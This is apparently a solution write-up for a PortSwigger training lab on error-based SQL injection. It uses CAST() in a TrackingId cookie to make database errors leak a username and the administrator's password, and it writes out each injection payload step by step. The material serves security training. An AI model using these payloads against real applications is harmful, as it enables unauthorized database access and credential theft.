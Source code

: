 # Extracting sensitive data via verbose SQL error messages

You can use the CAST() function to achieve this. It enables you to convert one data type to another. For example, imagine a query containing the following statement:

```
CAST((SELECT example_column FROM example_table) AS int)
```

Often, the data that you're trying to read is a string. Attempting to convert this to an incompatible data type, such as an int, may cause an error similar to the following:

```
ERROR: invalid input syntax for type integer: "Example data"
```

This type of query may also be useful if a character limit prevents you from triggering conditional responses.

## Solution for the PortSwigger lab:

Using Burp's built-in browser, explore the lab functionality.

Go to the Proxy > HTTP history tab and find a GET / request that contains a TrackingId cookie.
In Repeater, append a single quote to the value of your TrackingId cookie and send the request.

```
TrackingId=ogAZZfxtOKUELbuJ'
```

In the response, notice the verbose error message. This discloses the full SQL query, including the value of your cookie. It also explains that you have an unclosed string literal. Observe that your injection appears inside a single-quoted string.

In the request, add comment characters to comment out the rest of the query, including the extra single-quote character that's causing the error:

```
TrackingId=ogAZZfxtOKUELbuJ'--
```

Send the request. Confirm that you no longer receive an error. This suggests that the query is now syntactically valid.

Adapt the query to include a generic SELECT subquery and cast the returned value to an int data type:

```
TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--
```

Send the request. Observe that you now get a different error saying that an AND condition must be a boolean expression.

Modify the condition accordingly. For example, you can simply add a comparison operator (=) as follows:

```
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--
```

Send the request. Confirm that you no longer receive an error. This suggests that this is a valid query again.

Adapt your generic SELECT statement so that it retrieves usernames from the database:

```
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--
```

Observe that you receive the initial error message again. Notice that your query now appears to be truncated due to a character limit. As a result, the comment characters you added to fix up the query aren't included.

Delete the original value of the TrackingId cookie to free up some additional characters. Resend the request.

```
TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--
```

Notice that you receive a new error message, which appears to be generated by the database. This suggests that the query was run properly, but you're still getting an error because it unexpectedly returned more than one row.

Modify the query to return only one row:

```
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

Send the request. Observe that the error message now leaks the first username from the users table:

ERROR: invalid input syntax for type integer: "administrator"
Now that you know that the administrator is the first user in the table, modify the query once again to leak their password:

```
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

Log in as administrator using the stolen password to solve the lab.